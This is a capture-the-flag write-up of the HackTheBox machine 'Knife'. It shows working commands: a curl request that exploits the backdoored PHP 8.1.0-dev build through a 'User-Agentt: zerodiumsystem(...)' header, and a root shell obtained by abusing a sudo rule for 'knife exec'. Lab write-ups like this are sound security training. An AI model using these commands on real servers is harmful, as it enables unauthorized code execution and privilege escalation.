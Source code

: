 ```yaml
---
title: Hackthebox - Knife
date: 2021-05-23 00:00:00 +0530
categories: [hackthebox, linux]
tags: [php 8.1.0-dev, sudo knife]     # TAG names should always be lowercase
image: /assets/img/posts/knife/knife_banner.png
---
```



![](/assets/img/posts/knife/knife_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.242 knife.htb

__nmap scan:__
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running PHP version is
```bash
❯ curl -I http://knife.htb/
HTTP/1.1 200 OK
Date: Sun, 23 May 2021 02:42:36 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

This is looks like a backdoor php which happened after php-rce github repo is compromised and someone made a [commit with backdoor](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)

This backdoor executes PHP code from within the useragent HTTP header `User-Agentt`, if the string starts with 'zerodium'
```php
zerodium$any_php_function();
```

# Foothold

## backdoor php Version

Exploit it by sending payload in `User-Agentt` header 
```bash
❯ curl -s  http://knife.htb/ -H "User-Agentt: zerodiumsystem('id');" | sed '/<!DOCTYPE html>/,/<\/html>/d'
uid=1000(james) gid=1000(james) groups=1000(james)
```

![](/assets/img/posts/knife/web-shell.png)

# Privesc

## `knife` Command with sudo

User "james" have sudo rights to run `/usr/bin/knife` as root with NOPASSWD
```bash
(remote) james@knife:/opt/opscode$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

__[knife](https://docs.chef.io/workstation/knife_setup/):__ knife is a command-line tool that provides an interface between a local chef-repo and the Chef Infra Server. The knife command line tool must be configured to communicate with the Chef Infra Server as well as any other infrastructure within your organization.
  * __Chef Infra__ is a configuration management tool for defining infrastructure as code (IAC), making the process of managing configurations and system state automated and testable.

There is command in knife `[knife exec](https://docs.chef.io/workstation/knife_exec/)` which execute Ruby scripts in the context of a fully configured Chef Infra Client.

__Create rubby script__
```rb
system('/bin/bash')
```

__Run__
```bash
sudo -u root /usr/bin/knife exec script.rb
```

![](/assets/img/posts/knife/knife-rooted.png)

